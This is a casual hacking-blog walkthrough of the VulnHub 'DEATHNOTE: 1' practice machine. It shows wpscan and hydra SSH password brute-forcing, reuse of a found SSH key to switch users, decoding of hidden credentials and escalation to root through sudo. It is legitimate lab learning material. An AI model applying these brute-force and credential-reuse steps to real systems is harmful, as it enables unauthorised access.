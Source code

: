 ```yaml
---
layout: post
title:  "Updates 10 September"
date:   2021-09-10 22:00:00 +1000
category: hacking
---
```


Long time no post eh. What have I been up to? Can't remember lol. I did [Horizontall](https://www.hackthebox.eu/home/machines/profile/374) from HackTheBox. I did a few [crackmes](https://crackmes.one/). I did some stuff from THM. I tried to do [Darkhole 2](https://www.vulnhub.com/entry/darkhole-2,740/) from VulnHub but I couldn't connect to it from my Kali VM. Whatever. 

Oh, and just now I did [DEATHNOTE: 1](https://www.vulnhub.com/entry/deathnote-1,739/) from VulnHub. 

## Ports
HTTP and SSH.

## HTTP
Attempting to go to the IP just gives a message about not being able to reach *deathnote.vuln*, so add this to /etc/hosts and try again. It's a wordpress install. There is a hint:

>Find a notes.txt file on server

Where does stuff go on Wordpress? **wp-content/uploads**

>http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/

{% highlight shell %}
[TXT]	notes.txt	2021-07-19 10:08 	449 	 
[TXT]	user.txt	2021-07-19 10:38 	91 	 
{% endhighlight %}

Looks like we have usernames and passwords. Try wpscan:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/deathnote]
└─# wpscan -U ./user -P ./pass --url http://deathnote.vuln/wordpress      
# etc
[i] No Valid Passwords Found.
# etc
{% endhighlight %}

Oh. Hydra then?

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/deathnote]
└─# hydra -L ./user -P ./pass ssh://deathnote.vuln
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-10 08:09:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 731 login tries (l:17/p:43), ~46 tries per task
[DATA] attacking ssh://deathnote.vuln:22/
[STATUS] 289.00 tries/min, 289 tries in 00:01h, 444 to do in 00:02h, 16 active
[22][ssh] host: deathnote.vuln   login: l   password: death4me
[STATUS] 295.50 tries/min, 591 tries in 00:02h, 142 to do in 00:01h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
{% endhighlight %}

Bingo. Let's login:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/deathnote]
└─# ssh l@deathnote.vuln
The authenticity of host 'deathnote.vuln (192.168.1.60)' cant be established.
ECDSA key fingerprint is SHA256:IT1oaQY12jhOmyoQGZC1hKHtYUWy6i8rET2yKX0KkpI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'deathnote.vuln,192.168.1.60' (ECDSA) to the list of known hosts.
l@deathnote.vulns password: 
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
l@deathnote:~$ sudo -l
[sudo] password for l: 
Sorry, user l may not run sudo on deathnote.
{% endhighlight %}

Now what? Looking around we have another user, kira. We can read their *authorized_keys* file:

{% highlight shell %}
l@deathnote:/home/kira/.ssh$ ls -lash
total 12K
4.0K drwxr-xr-x 2 kira kira 4.0K Jul 19 11:14 .
4.0K drwxr-xr-x 4 kira kira 4.0K Sep  4 06:10 ..
4.0K -rw-r--r-- 1 kira kira  393 Jul 19 11:14 authorized_keys
l@deathnote:/home/kira/.ssh$ cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDyiW87OWKrV0KW13eKWJir58hT8IbC6Z61SZNh4Yzm9XlfTcCytDH56uhDOqtMR6jVzs9qCSXGQFLhc6IMPF69YMiK9yTU5ahT8LmfO0ObqSfSAGHaS0i5A73pxlqUTHHrzhB3/Jy93n0NfPqOX7HGkLBasYR0v/IreR74iiBI0JseDxyrZCLcl6h9V0WiU0mjbPNBGOffz41CJN78y2YXBuUliOAj/6vBi+wMyFF3jQhP4Su72ssLH1n/E2HBimD0F75mi6LE9SNuI6NivbJUWZFrfbQhN2FSsIHnuoLIJQfuFZsQtJsBQ9d3yvTD2k/POyhURC6MW0V/aQICFZ6z l@deathnote
{% endhighlight %}

That's our user. We can copy down the id_rsa key for our user (l), chmod 600 on it and log in as *kira*.

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/deathnote]
└─# chmod 600 id_rsa  
                                                                                                                                       
┌──(root💀kali)-[/opt/vulnhub/deathnote]
└─# ssh -i id_rsa kira@deathnote.vuln
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep  4 06:00:09 2021 from 127.0.0.1
kira@deathnote:~$ ls -lash
total 32K
4.0K drwxr-xr-x 4 kira kira 4.0K Sep  4 06:10 .
4.0K drwxr-xr-x 4 root root 4.0K Jul 19 11:00 ..
   0 -rw------- 1 kira kira    0 Sep  4 06:10 .bash_history
4.0K -rw-r--r-- 1 kira kira  220 Jul 19 11:00 .bash_logout
4.0K -rw-r--r-- 1 kira kira 3.5K Jul 19 11:00 .bashrc
4.0K -rwx------ 1 kira root   85 Aug 29 11:31 kira.txt
4.0K drwxr-xr-x 3 kira kira 4.0K Jul 19 11:14 .local
4.0K -rw-r--r-- 1 kira kira  807 Jul 19 11:00 .profile
4.0K drwxr-xr-x 2 kira kira 4.0K Jul 19 11:14 .ssh
kira@deathnote:~$ cat kira.txt
cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
kira@deathnote:~$ cat kira.txt | base64 -d
please protect one of the following 
1. L (/opt)
2. Misa (/var)
{% endhighlight %}

What's in there? Go poke around....

{% highlight shell %}
kira@deathnote:/opt/L/fake-notebook-rule$ file case.wav
case.wav: ASCII text
kira@deathnote:/opt/L/fake-notebook-rule$ cat case.wav
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
{% endhighlight %}

Decodes to *passwd : kiraisevil*

{% highlight shell %}
kira@deathnote:/opt/L/fake-notebook-rule$ sudo -l
[sudo] password for kira: 
Matching Defaults entries for kira on deathnote:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kira may run the following commands on deathnote:
    (ALL : ALL) ALL
kira@deathnote:/opt/L/fake-notebook-rule$ sudo su
root@deathnote:/opt/L/fake-notebook-rule# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
deathnote
Fri 10 Sep 2021 08:14:54 AM EDT
root@deathnote:/opt/L/fake-notebook-rule# cd /root
root@deathnote:~#
{% endhighlight %}

And done. I liked this because even though it was themed I didn't need to know anything about the story/characters (it's some anime thing I think), but it probably added some flavour if you're into that particular thing. So that's good.
